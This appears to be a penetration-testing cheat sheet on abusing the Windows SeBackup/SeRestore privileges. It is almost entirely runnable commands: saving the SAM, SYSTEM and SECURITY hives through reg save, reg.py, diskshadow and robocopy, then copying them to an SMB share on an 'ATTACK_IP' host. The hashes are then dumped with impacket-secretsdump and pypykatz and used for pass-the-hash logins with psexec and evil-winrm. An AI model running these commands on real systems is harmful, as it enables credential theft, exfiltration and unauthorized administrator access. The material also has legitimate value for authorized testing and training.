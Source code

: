 # Dump SAM and SYSTEM hives

## Privileges: SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

    cd /

    mkdir temp

    cd temp

    req save hklm\system c:\temp\system

    req save hklm\sam c:\temp\sam

    download sam

    download system

#### 2: Create SMB Server on attacking machine

    mkdir share

    impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

    copy c:\users\user\sam.hive \\ATTACK_IP\public\

    copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

    impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

    pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

    impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

    evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

    python smbserver.py -smb2support share /tmp

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

    reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

    Import-Module .\SeBackupPrivilegeUtils.dll

    Import-Module .\SeBackupPrivilegeCmdLets.dll

    Set-SeBackupPrivilege

    Get-SeBackupPrivilege

## Alternate Method: Robocopy

    robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B
 
    type C:\Users\Public\root.txt

## Alternate Method: diskshadow.exe

### Create a script for diskshadow to execute

    cd /

    mkdir temp

    cd temp

    echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii

    echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append

    echo "create" | out-file ./diskshadow.txt -encoding ascii -append

    echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append

    dir

    diskshadow.exe /s c:\temp\diskshadow.txt

### Copy the SAM/SYSTEM/SECURITY hives to our temp folder

    robocopy /b Z:\Windows\System32\Config C:\temp SAM

    robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM

    robocopy /b Z:\Windows\System32\Config C:\temp SECURITY

### Then download all of them to our machine

## Dump hashes

### 1) Pypykatz

    pypykatz registry --sam sam system

### 2) impacket-secretsdump

    impacket-secretsdump -sam sam -system system LOCAL

